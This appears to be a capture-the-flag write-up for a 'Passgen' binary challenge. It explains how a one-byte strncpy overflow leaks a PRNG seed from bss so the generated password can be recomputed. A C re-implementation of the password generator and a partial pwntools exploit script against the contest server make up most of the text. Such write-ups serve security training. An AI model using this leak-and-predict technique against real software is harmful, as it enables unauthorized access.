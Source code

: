 
<h1 id="passgen">Passgen</h1>

In this challenge, our goal is to leak the seed and hence guess the password
the binary generated.

In IDA, we can see that the seed is located in bss. In addition, `session` and
`dest` are located above the seed in bss too. Our input to the binary is stored
in `dest`, while the generated password is stored in `session`.

We also have a one-byte overflow in `strncpy` when the binary reads in our
name. Using this, we can overwrite the null byte between `dest` and `seed`,
hence leaking the seed. Then, we can use the seed to initialize `rand()` and
generate the same password as was generated in the binary.

```c
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv) {
  char v4[88];
  char out[33];
  int seed = atoi(argv[1]);
  srand(seed);
  strcpy(v4, "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#" "$%^&*()-_=+[]{};:,.<>?");
  for (int i = 0; i < 32; ++i) {
    out[i] = v4[rand() % 87];
  }
    out[32] = 0;
    puts(out);
}
```

```py
#!/usr/bin/env python3

from pwn import *
import os

exe = ELF("./passgen_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-2.27.so")

context.binary = exe

def conn():
    if args.LOCAL:
        p = process([exe.path])
        if args.GDB:
            gdb.attach(p)
            pause()
    else:
        p = remote("chals.f.cyberthon23.ctf.sg", 43050)

    return p


def main():
    p = conn()

    # good luck pwning :)
    payload = b"a"*257
    p.sendline(payload)
    p.recvuntil(b"a"*256)
    seed = u64(p.recvline().strip().ljust(8, b"\x00"))
    print(seed)
```